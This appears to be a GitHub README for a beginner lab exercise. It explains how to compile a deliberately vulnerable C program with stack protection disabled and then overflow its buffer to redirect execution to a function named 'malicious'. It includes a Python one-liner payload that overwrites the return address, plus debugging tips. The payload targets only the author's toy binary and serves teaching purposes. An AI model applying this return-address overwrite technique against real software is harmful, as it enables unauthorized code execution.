 # BufferOverflow
Writing a buffer overflow vulnerability and exploiting it.

# Quick Start
1. Compile the c file. Disabling stack protection and compiling for a 32 bit machine.

	`$ gcc -fno-stack-protector -m32 vulnerability.c`

2. Detrmine the address of the malicious function (e.g. the function named 'malicious'). You can do this in two ways.

	a. Easy method. run `./a.out` and it will print the address for you.<br>
	b. Cooler method. run `objdump -d a.out | less` and find the address manually.
  
3. Determine if you are on a Big Endian or Little Endian Machine. You can probably google this.

4. Run the injection using your malicious address in the proper LE/BE order
  
	`python -c 'print "a"*32 + "\xa0\x84\x04\x08"' | ./a.out`
  
Note: If you are on a LE machine, inject a LE ordered address. Otherwise, inject a BE ordered address.
My malicious address was 0\x080484a0 on a LE macine.
  



# Debugging
The malicious print statement was not printing until I flushed the printf buffer by adding a new line character '\n'.
If you are messing around with this, don't forget to flush the buffer or will just receive seg faults and not feel like a hacker :(
